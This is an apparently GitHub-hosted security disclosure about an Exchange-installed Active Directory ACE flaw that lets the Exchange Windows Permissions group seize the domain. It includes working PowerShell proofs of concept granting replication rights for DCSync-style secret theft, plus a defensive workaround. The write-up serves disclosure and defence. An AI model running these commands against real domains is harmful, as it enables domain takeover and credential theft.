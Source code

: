 # Exchange-AD-Privesc

This repository will provide a few techniques and scripts regarding the impact of Microsoft Exchange deployment on Active Directory security.

## General considerations

For pentesters looking to take control of an AD domain, Exchange is a valid intermediary target. The servers are much less secured than domain controllers by default and the control groups are distinct in the usual permissions models, which provides numerous alternative targets.
They are also more difficult to migrate and business critical, so organizations often adopt a slower migration process for Exchange than for AD and do not specifically harden the servers.

Exchange deployment on an Active Directory domain is an interesting case. Many attributes and classes are added to the schema, security groups are created and DACL on some AD objects are heavily modified. 

Basically you can select among 3 permissions models:

* RBAC Split (most common)
* Shared permissions (default)
* AD Split

Particularly, DACLs for RBAC Split and Shared models are enumerated here: https://technet.microsoft.com/en-us/library/ee681663(v=exchg.150).aspx .


High value targets:

* **Exchange Trusted Subsystem** and **Exchange Windows Permissions** groups, which are trustees for many ACE added during deployment on AD objects.
* Exchange servers: they are members of **Exchange Trusted Subsystem** and **Exchange Windows Permissions** groups. They can be compromised using many more techniques than domain controllers: local administrators domain accounts, Kerberos delegation, SMB relay, RODC replication, etc. The usual stuff.
* Organization admins: they are part of the local administrators group on Exchange servers. They also have full control on the OU containing the Exchange security groups. They can launch service/psexec/runas/... under computer identity/NetworkService/LocalSystem to control **Exchange Trusted Subsystem** and **Exchange Windows Permissions** SIDs.

## 1. Domain object DACL privilege escalation

A privilege escalation is possible from the **Exchange Windows permissions** (EWP) security group to compromise the entire prepared Active Directory domain.

DISCLAIMER: This has been responsibly disclosed to MSRC in October 2017 and after a few back and forth emails, they decided it was working as intended and would not fix it.

* Description of the issue

When preparing Exchange 2010/2013/2016 installation in shared permissions (default) or RBAC split permissions, some ACEs are positioned on the domain object for the **Exchange Windows Permissions** security group.
This happens during the "Setup /PrepareDomain" command.

Two ACEs on the domain object are missing the INHERIT_ONLY_ACE bit in the Flags field. 

This is how they are, in SDDL format :

```
(OA;CI;DTWD;;4828cc14-1437-45bc-9b07-ad6f015e5f28;<SID of EWP>)
(OA;CI;DTWD;;bf967aba-0de6-11d0-a285-00aa003049e2;<SID of EWP>)
```

Notice the missing 'IO' (inherit_only) flag. As a matter of fact, INHERITED_OBJECT_TYPE ACE effectively apply to the object itself when the inherit_only flag is not set.

This is how they are documented on Technet, so it is definitely missing that information:


| Account | ACE type | Inheritance | Permissions | On property/ Applies to | Comments |
| ------- | -------- | ----------- | ----------- | ----------------------- | -------- |
| Exchange Windows Permissions | Allow ACE | All | WriteDACL | / user | |
| Exchange Windows Permissions | Allow ACE | All | WriteDACL | / inetOrgPerson | |



And finally, this is how they appear in the GUI (DSA console), which is also missing that information:

![DSA ACE view](DSA_ACE_view.png "DSA ACE view")


Coincidentally, INHERITED_OBJECT_TYPE ACE created with DSA console always have the IO flag. Creating a 'self and specific descendents', INHERITED_OBJECT_TYPE ACE is only possible programmatically and only viewable programmatically.



* Technical consequence

The Allow permission to WriteDACL is granted to the Trustee on the domain object itself and not only on its user/inetOrgPerson descendants, effectively giving complete control to anyone with the **Exchange Windows Permissions** SID in its token.

* Expected behavior

The Allow permission to WriteDACL should only be given on child objects matching the INHERITED_OBJECT_TYPE Guid. It is supposed to only apply to user or inetOrgPerson classes.
This is also incoherent with the other INHERITED_OBJECT_TYPE ACEs on the domain object for the same Trustee, which all have the INHERIT_ONLY_ACE bit in the Flags field.


* Security Consequence

A privilege escalation is possible from the **Exchange Windows permissions** (EWP) security group to compromise the entire prepared Active Directory domain. Just set the Ds-Replication-Get-Changes-All extended right on the domain object. This is enough to use a DRSUAPI replication tool ala DCSync to get all the domain secrets (Kerberos keys, hashes, etc.).

You can control the SID of the EWP group from **Organization management**, from **Account operators** or from any Exchange server.
Interestingly, the RBAC system is proxified through EWP so a privilege escalation is possible from the *Active Directory Permissions* RBAC role to compromise the entire prepared Active Directory domain.


* Proof of concept 1: Set-Acl (or with DSA console)

From an **Organization Management** member account, add yourself to **Exchange Windows Permissions**.
This is possible by default (see the above technet page).

```
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
$user = Get-ADUser -Identity $id.User
Add-ADGroupMember -Identity "Exchange Windows Permissions" -Members $user
```

RELOG to update groups in your token then give yourself Ds-Replication-Get-Changes-All extended right on the domain object.

```
$acl = get-acl "ad:DC=test,DC=local"
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
$user = Get-ADUser -Identity $id.User
$sid = new-object System.Security.Principal.SecurityIdentifier $user.SID
# rightsGuid for the extended right Ds-Replication-Get-Changes-All
$objectguid = new-object Guid  1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
$identity = [System.Security.Principal.IdentityReference] $sid
$adRights = [System.DirectoryServices.ActiveDirectoryRights] "ExtendedRight"
$type = [System.Security.AccessControl.AccessControlType] "Allow"
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance] "None"
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
$acl.AddAccessRule($ace)
Set-acl -aclobject $acl "ad:DC=test,DC=com"
```


* Proof of concept 2: RBAC Add-ADPermission

The following Powershell code, executed by a user account with the RBAC role *Active Directory Permissions*, sets the Ds-Replication-Get-Changes-All extended right on the domain object.

```
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
Add-ADPermission "DC=test,DC=local" -User $id.Name -ExtendedRights Ds-Replication-Get-Changes-All
```

* Workaround fix

Use the Fix-DomainObjectDACL.ps1 Powershell script in this repository. Read it, test it, use it at your own risk.

By default, it checks the two faulty ACE, this can be done by any user. Use with -Fix switch with Domain Admins privileges to set the inherit_only missing flags.


Another option is doing it manually with LDP. Bind as a Domain Admin account with the usual precautions, as you will change the domain object DACL.
Locate the 2 faulty ACE in the DACL of the domain object: you can sort by Trustee to see Exchange Windows Permissions, there will only be 2 ACE with "Write DACL,..." Rights.
Check the 'Inherit only' box in their ACE flags field. 



